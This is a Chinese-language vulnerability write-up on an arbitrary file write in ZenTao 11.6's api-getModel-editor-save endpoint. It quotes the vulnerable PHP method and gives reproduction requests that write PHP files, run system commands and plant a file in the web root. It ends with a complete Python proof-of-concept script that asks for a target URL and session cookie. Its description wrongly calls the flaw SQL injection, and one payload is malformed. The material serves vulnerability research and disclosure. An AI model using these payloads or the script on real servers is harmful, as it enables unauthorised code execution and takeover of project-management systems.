 # 

# 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 漏洞影响

```
禅道 11.6
```

## 环境搭建

这里使用docker环境搭建

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

访问 [**http://xxx.xxx.xxx.xxx:8084**](http://xxx.xxx.xxx.xxx:8084) 按步骤安装即可

![](./images/202202162304907.png)

## 漏洞复现

这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 **禅道 11.6版本 SQL注入漏洞** 关于此漏洞的完整分析

查看**module/api/ediyor/moudel.php**下的**save方法**

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```

**$filePath参数和$fileContent参数** 我们是可控的

调用方法往 **/tmp**写入一个**phpinfo()**

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell.php

POST:fileContent=<?php phpinfo();?>
```

![](./images/202202162305743.png)

![](./images/202202162305838.png)

在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1
```

![](./images/202202162305119.png)

也可以写入网站目录中

先获取地址

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

POST：fileContent=<?php system('find / -name ioncube.php')?>');?>
```

访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)

![](./images/202202162305332.png)



得到目录为 **/app/zentaopma/www**

请求改为

```plain
http://xxx.xxx.xxx.xxx/api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

再去访问[**http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1**](http://xxx.xxx.xxx.xxx/api-getModel-api-getMethod-filePath=/tmp/shell/1)则会再网站目录下生成 xxx.php 文件



![](./images/202202162305334.png)

![](./images/202202162305426.png)

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                        \033[0m')
    print('+  \033[34mVersion: zentao version = 11.6                                    \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mZentaosid   >>> xxxxxxxxxxxxxx(cookie字段)                          \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    version_url = target_url + "/www/index.php?mode=getconfig"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=version_url, timeout=20, headers=headers)
        version = json.loads(response.text)['version']
        print("\033[32m[o] 禅道版本为:{}\033[0m".format(version))

    except Exception as e:
        print("\033[31m[x] 获取版本失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    data = {"fileContent":"<?php phpinfo();?>"}
    write_url = target_url + "/api-getModel-editor-save-filePath=/tmp/test"
    try:
        response = requests.post(url=write_url, data=data, headers=headers, timeout=10)
        print("\033[32m[o] 尝试写入php文件... \033[0m")
    except:
        print("\033[31m[x] 写入php文件失败 \033[0m")
        sys.exit(0)

def POC_3(target_url, zentaosid):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie": "zentaosid={}".format(zentaosid)
    }
    vuln_url = target_url + "/api-getModel-api-getMethod-filePath=/tmp/test/1"
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=10)
        if "System" in response.text:
            print("\033[32m[o] 成功写入文件，存在漏洞, 访问 {}/api-getModel-api-getMethod-filePath=/tmp/test/1/ 查看 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 读取php文件失败 \033[0m")
    except:
        print("\033[31m[x] 读取php文件失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    zentaosid  = str(input("\033[35mZentaosid >>> \033[0m"))
    POC_1(target_url)
    POC_2(target_url, zentaosid)
    POC_3(target_url, zentaosid)
```

![](./images/202202162305586.png)
